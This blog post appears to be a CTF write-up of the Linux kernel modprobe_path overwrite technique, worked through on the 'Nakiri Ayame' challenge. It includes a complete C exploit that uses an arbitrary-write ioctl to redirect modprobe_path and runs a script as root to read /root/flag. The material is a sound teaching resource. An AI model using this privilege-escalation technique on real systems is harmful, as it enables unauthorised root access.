 ```yaml
---
layout: post
title:  "Modprobe overwrite"
date:   2022-12-23
categories: ctf kernelexploit
description: modprobe overwrite - kernel exploitation 
tags: tip-binary ctf
---
```


# What is modprobe?

modprobe intelligently adds or removes a module from the Linux kernel: note that for convenience, there is no difference between _ and - in module names. modprobe looks in the module directory /lib/modules/'uname -r' for all the modules and other files, except for the optional /etc/modprobe.conf configuration file and /etc/modprobe.d directory (see modprobe.conf(5)). modprobe will also use module options specified on the kernel command line in the form of `<module>.<option>`.
src: https://linux.die.net/man/8/modprobe

modprobe can be use to add or remove loadable kernel module to the linux kernel. modprobe is installed on`/sbin/modprobe` or you can check by yourself `cat /proc/sys/kernel/modprobe`. 

# Modprobe overwrite

Since the path of modprobe is stored under the symbol `modprobe_path` in the kernel and in a writeable page, we can get the address by reading `/proc/kallsyms`, after that we can overwrite the address of `modprobe_path` with malicious path which pointed to other file in this case `evil.sh`. Then `evil.sh` will be executed when we execute unkown file type on the system. 

# Exploitation

in this post I will use a CTF challenge from Cyber Jawar Final 2022 called `Nakiri Ayame`, since the challenge require a kernel leak and this can be achieved by leaking the kernel via stacktrace or bruteforce the address I disabled the kaslr to make it esier :v (tawa penuh ke noob-an). Since we have arbitrary address write (AAW) primitive and address of the modprobe_path symbol, We can overwrite `modprobe_path` to malicious shellscript/binary so the binary/shellscript will executed as root

the kernel module will be installed at "/dev/ayame". we can interact with the kernel module with `ioctl()` and value `0x1337`.

<img src="/images/finalcj2022/1.png">

Our goal is to read the flag at `/root/flag` to do that we need to escalate from user to root. Firstly we can open the vuln kernel module 

{% highlight C %}
char *VULN_DRV = "/dev/ayame";

void open_dev_vuln(void){
    fd = open(VULN_DRV, O_RDWR);
    if(fd < 0){
        write(1,"[-] fail to open device\n",24);
    }else{
        write(1,"[+] device opened\n",18);
    }
}
{% endhighlight %}

then we need to get the address of `modprobe_path` symbol, we can use this command to read the address since I disabled the kaslr protection :v 

    ffffffff82445b60 D modprobe_path

Now we can reverse `/tmp/x` and encoded the string as hex, this string will overwrite the modprobe_path value from `/sbin/modprobe` to `/tmp/x`. We overwrite the modprobe_path using arbitrary address write (AAW) primitive to our evil string. 

{% highlight C %}
void overwrite_modprobe(void){

    // ffffffff82445b60 D modprobe_path
    unsigned long modprobe_path = 0xffffffff82445b60;
    unsigned long evil_modprobe_path = 0x782f706d742f;


    buf2[0] = modprobe_path; // rdi
    buf2[1] = &evil_modprobe_path; // rsi
    buf2[2] = 0x50; // rdx

    ioctl(fd, 0x1337, &buf2);
}
{% endhighlight %}

Then we can trigger the bug so kernel will execute our `modprobe_path` with root user. This can be achived by create a shellscritpt/binary at `/tmp/x` since our goal to read `/root/flag` we can create a shellscript to copy the flag to /tmp and make it readable. Then we create unknown file type signature so the system will invoke `modprobe`.

{% highlight C %}
void trigger_modprobe(void){
    write(1,"[*] Returned to userland, setting up for fake modprobe\n", 56);
    
    system("echo '#!/bin/sh\ncp /root/flag /tmp/flag\nchmod 777 /tmp/flag' > /tmp/x");
    system("chmod +x /tmp/x");

    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy");
    system("chmod +x /tmp/dummy");

    puts("[+] Run unknown file");
    system("/tmp/dummy");

    puts("[+] readflag ");
    system("cat /tmp/flag");

    exit(0);
}
{% endhighlight %}
 

Full exploit:

{% highlight C %}
#define _GNU_SOURCE
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

#include <sched.h>
#include <sys/mman.h>
#include <signal.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#include <sys/wait.h>
#include <poll.h>
#include <unistd.h>
#include <stdlib.h>

int64_t buf[0x400];
int64_t buf2[0x400];
int fd;

char *VULN_DRV = "/dev/ayame";

void open_dev_vuln(void){
    fd = open(VULN_DRV, O_RDWR);
    if(fd < 0){
        write(1,"[-] fail to open device\n",24);
    }else{
        write(1,"[+] device opened\n",18);
    }
}

// ffffc90000147ec0
void get_crash(void){
    // int64_t buf[0x400];
    buf2[0] = 0xdeadbeef;
    buf2[1] = &buf;
    buf2[2] = 0x41414141;
    
    for (int i = 0; i < 0x80; ++i){
        buf[i] = 0x4242424242424242;
    }

    ioctl(fd, 0x1337, &buf);
    // return 0;
}

void overwrite_modprobe(void){

    // ffffffff82445b60 D modprobe_path
    unsigned long modprobe_path = 0xffffffff82445b60;
    unsigned long evil_modprobe_path = 0x782f706d742f;


    buf2[0] = modprobe_path; // rdi
    buf2[1] = &evil_modprobe_path; // rsi
    buf2[2] = 0x50; // rdx

    ioctl(fd, 0x1337, &buf2);
}

void trigger_modprobe(void){
    write(1,"[*] Returned to userland, setting up for fake modprobe\n", 56);
    
    system("echo '#!/bin/sh\ncp /root/flag /tmp/flag\nchmod 777 /tmp/flag' > /tmp/x");
    system("chmod +x /tmp/x");

    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy");
    system("chmod +x /tmp/dummy");

    puts("[+] Run unknown file");
    system("/tmp/dummy");

    puts("[+] readflag ");
    system("cat /tmp/flag");

    exit(0);
}


void main(void){
    open_dev_vuln();
    overwrite_modprobe();
    trigger_modprobe();
}

{% endhighlight %}


run the exploit and we get our `/root/flag` flag

<img src="/images/finalcj2022/2.png"/>

I don't cover how to send our exploit to the server since the challenge server already died. You can learn more how to send the exploit from <a href="https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/">here</a> kudos to the challenge author.

other useful resource:
<ul>
    <li>
        <a href="https://lkmidas.github.io/posts/20210223-linux-kernel-pwn-modprobe/"> lkmidas </a>
    </li>
    <li>
        <a href="https://sam4k.com/like-techniques-modprobe_path/"> sam4k </a>
    </li>
</ul>